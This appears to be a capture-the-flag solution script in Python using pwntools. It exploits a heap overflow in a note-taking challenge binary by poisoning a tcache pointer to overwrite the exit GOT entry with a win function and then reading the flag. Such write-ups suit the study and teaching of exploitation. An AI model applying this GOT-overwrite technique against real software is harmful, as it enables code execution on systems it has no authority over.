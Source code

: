 ```python
def read_note(index):
    p.sendlineafter(b":\n", b"2")
    p.sendlineafter(b"index:\n", str(index).encode())
    p.recvuntil("data:\n")
    data = p.clean(1)
    return data

def edit_note(index, data):
    if len(data) > 152:
        print("Data cannot be > 152 when allocating a chunk")
        exit()
    p.sendlineafter(b":\n", b"3")
    p.sendlineafter(b"index:\n", str(index).encode())
    p.sendlineafter(b"data:\n", data)


def delete_note(index):
    p.sendlineafter(b":\n", b"4")
    p.sendlineafter(b"index:\n", str(index).encode())

index = 0
with conn() as p:
    chunk_A = create_note(b"A" * 120)
    chunk_B = create_note(b"B" * 120)
    chunk_C = create_note(b"C" * 120)

    delete_note(chunk_C)
    delete_note(chunk_B)
    edit_note(chunk_A, b"C" * (152 - 8 - 8) + p64(0x91) + p64(elf.got.exit))

    index = 1

    chunk_D = create_note(b"D")
    chunk_E = create_note(pack(elf.sym.win))

    p.sendlineafter(b":\n", b"5")
    p.clean()
    sleep(2)
    p.sendline(b"cat /flag*")
    log.success(f"Flag: {p.recvline_contains(b'DUCTF').decode()} ") 
```



